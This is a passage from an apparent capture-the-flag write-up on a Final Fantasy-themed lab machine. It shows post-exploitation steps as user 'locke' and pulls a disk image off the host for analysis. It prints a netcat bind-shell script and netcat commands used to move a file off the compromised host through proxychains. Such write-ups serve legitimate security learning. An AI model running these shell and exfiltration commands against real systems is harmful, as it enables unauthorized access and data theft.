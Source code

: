 {% img https://i.imgur.com/u2klDxc.png %}

##busting kefka
The shell on `adm` as `locke` was nothing more than a `/bin/sh` instance executed over `netcat`. This can be seen in the `littleShell.sh` file in `/home/locke`:

```bash
cat littleShell.sh
#!/bin/sh

/bin/nc -lnp 1111 -e '/bin/sh'
```

Other interesting files were all in `locke`'s home directory:

```bash
pwd
/home/locke
ls -lh
total 332K
-rw-r--r-- 1 locke locke 322K Aug 10 10:32 diskimage.tar.gz
-rwxr--r-- 1 locke locke   42 Aug 13 17:59 littleShell.sh
-rw-r--r-- 1 locke locke  110 Sep  4 13:38 note.txt
```

The `note.txt` file:

```bash
cat note.txt
Looks like Kefka may have been abusing our removable media policy.  I've extracted this image to have a look.
```

Awesome. That gives me a pretty clear idea of where this may be going. My guess was I needed to find something interesting in the `diskimage.tar.gz` file to progress. The first thing I had to do was get a local copy of `diskimage.tar.gz`. Out comes `netcat` again :) I hosted the file on `tcp/4444` on **192.168.4.100** with `nc -lvp 4444 < diskimage.tar.gz | xxd -p`. I then read the file on my attacking machine with `timeout 5 proxychains nc 192.168.4.100 4444 > diskimage.tar.gz` (I gave the file 5 seconds to come over before killing the connection, allowing my other netcat shell to stay alive).

I had to carve out the string *ProxyChains-3.1 (http://proxychains.sf.net)* out of the archive I get locally on disk due to the proxychains command adding this. Luckily it was a simple `dd` on the top line and it was gone :)

I then extracted the archive and ran the resultant archive through `file`:

```bash
root@kali:~# tar xvf diskimage.tar.gz 
diskimage

root@kali:~# file -k diskimage
diskimage: x86 boot sector, code offset 0x3c, OEM-ID "MSDOS5.0", sectors/cluster 2, root entries 512, Media descriptor 0xf8, sectors/FAT 238, heads 255, hidden sectors 63, sectors 122031 (volumes > 32 MB) , reserved 0x1, serial number 0xad6f8bf, unlabeled, FAT (16 bit) DOS executable (COM), boot code
```
